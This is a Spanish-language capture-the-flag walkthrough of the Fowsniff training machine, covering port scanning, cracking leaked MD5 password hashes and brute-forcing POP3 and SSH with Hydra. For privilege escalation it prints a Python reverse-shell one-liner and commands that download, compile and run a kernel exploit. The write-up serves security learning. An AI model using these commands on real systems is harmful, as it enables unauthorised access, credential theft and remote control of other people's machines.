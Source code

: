 <h1 align="center">Fowsniff CTF</h1>

# ÍNDICE

# INTRODUCCIÓN

Una máquina perfecta para principiantes!

Para empezar haremos un test de conectividad.

```
ping <ip>
```

Posteriormente un escaner con "nmap"

```
sudo nmap -sCV -T4 --min-rate 4000 <ip>
```

![image](https://github.com/user-attachments/assets/fe4619f1-4641-444c-80e4-722145d894a3)

Viendo esta información nos encontramos con:

- Puerto 22 abierto : SSH
- Puerto 80 abierto : HTTP
- Puerto 110 abierto : POP3 (No cifrado)
- Puerto 143 abierto : IMAP

Buscando información en google sobre estas personas en contramos un pastebin con sus contraseñas y emails hasehados en MD5

mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

 Podemos utilizar "Crackstation" o por supuesto "john" pero tardaremos menos con la otra

 ![image](https://github.com/user-attachments/assets/a84bf95a-3d20-49c0-9fe9-5e1a0bb41337)

En este caso podemos ir por dos vectores, ya que tenemos contraseñas hasehadas pordemos intentar hacer un inicio de fuerza burta al pop3 o al ssh con hydra

Para empezar deberemos crear dos wordlist con los usuarios y con las contraseñas.

```
hydra -L user.txt -P pass.txt -f 10.10.202.207 -s 110 pop3
```

![image](https://github.com/user-attachments/assets/faa7c163-e95e-44c1-978a-ea3ce76bfea0)

Encontramos una cuenta con la capacidad de poder iniciar sesión probremos.

```
nc <ip> <puerto>

USER ####
PASS ####

LIST

retr 1
```

Nos encontramos con un correo en el que nos dice que un hacker inicio sesion en su correo interno.

![image](https://github.com/user-attachments/assets/95cc3831-a917-4a7c-96ac-456d563d518c)

Nos encontramos con un contraseña en SSH probemos si funciona. Teniendo todos los usuarios.

```
hydra -L user.txt -P uno.txt -f 10.10.202.207 -s 22 ssh
```

![image](https://github.com/user-attachments/assets/4ddd2fc5-b811-4a76-a605-416269c67cf9)

Lo conseguimos vamos dentro del ssh

![image](https://github.com/user-attachments/assets/c790f60b-998e-4137-b703-dc72a2ddd3a9)

Si exploramos un poco nos encontramos en el grupo (baksteen)

![image](https://github.com/user-attachments/assets/6d5fdb0d-4f54-45a7-8080-8c095d6bbee4)

Vamos a filtrar a ver que podemos ejecutar con este grupo.

```
find / -group users 2>/dev/null
```

Nos encontramos que el grupo realmente importante es "users" y nos encontramos en la ruta /opt/cube un archivo importante.

![image](https://github.com/user-attachments/assets/367c9333-d8c9-4567-9bfa-08386ebec535)

Podemos editarlo para generar una rev shell y conectarnos con dichos permisos 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Tenemos otra vulnerabilidad tambien importante que podemos escalar privilegios y es desde el mismo kernel

```
cd /var/www/html
wget https://www.exploit-db.com/download/44298
mv 44298 44298.c
gcc 44298.c -o exploit
/etc/init.d/apache2 start
ifconfig
```

```
cd /tmp
wget <ip>/exploit
chmod +x exploit
./exploit
```

![image](https://github.com/user-attachments/assets/237cc1ff-3d60-4d15-8c0c-b172d883b589)

GG!!






